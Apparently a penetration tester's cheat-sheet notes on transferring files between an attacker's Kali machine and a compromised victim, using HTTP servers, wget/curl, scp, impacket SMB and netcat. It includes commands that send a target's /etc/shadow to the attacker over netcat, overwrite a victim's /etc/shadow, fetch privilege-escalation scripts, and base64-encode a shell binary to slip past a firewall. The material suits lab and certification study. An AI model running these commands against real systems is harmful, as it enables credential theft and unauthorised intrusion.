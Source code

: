 # Linux

## Simple HTTP server

Python HTTP server (for file sharing):

```bash
python -m http.server 80
```

**Downloading Files**

Using `wget` or `curl` to download files:

```bash
wget http://IP/file
curl -O http://IP/file
```

Example with `curl` specifying output file:

```bash
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

***

## SCP way with authorized keys

```
scp -P 25022 -i id_rsa.txt /opt/linuxpriv/linpeas.sh alfredo@192.168.161.249:~
```


### scp download from inside ssh

start SSH server
```
sudo service ssh
sudo service ssh start 
```

my ssh starts at 2222

![[Pasted image 20240614011501.png]]

in victim
```
scp -P 2222 kali@192.168.45.214:/bin/bash /home/tom/usr/bin
```

![[Pasted image 20240614011618.png]]


-------

## **SMB File Sharing**

**On Kali (host):**

```
python /opt/impacket/examples/smbserver.py ROPNOP .
```

**On Victim (client):**

```powershell
copy \\kali-ip\ROPNOP\filename .
```

***

## **Netcat File Transfer**

Scene 1: When we have get files from other machine in our Kali

```plaintext
nc -nvlp 5555 < /etc/shadow       # On target machine MS01/HTB + enter
nc target_ip 5555 > shadow        # On our kali
```

Scene 2: When we share file to other machine from our Kali

```plaintext
nc target_ip 5555 < shadow        # it means whenever connection come share that file
nc -nvlp 5555 > /etc/shadow       # On target machine MS01/HTB + enter
```

***

## **Secure Copy Protocol (SCP)**

To copy files securely using SCP:

*   **Copy a file:**

    ```plaintext
    scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext
    ```
*   **Copy a directory:**

    ```plaintext
    scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
    After
    ```

***

## base64

when blocked by firewall or cannot do anything

```bash
base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

copy generated string and paste to other

```bash
echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```


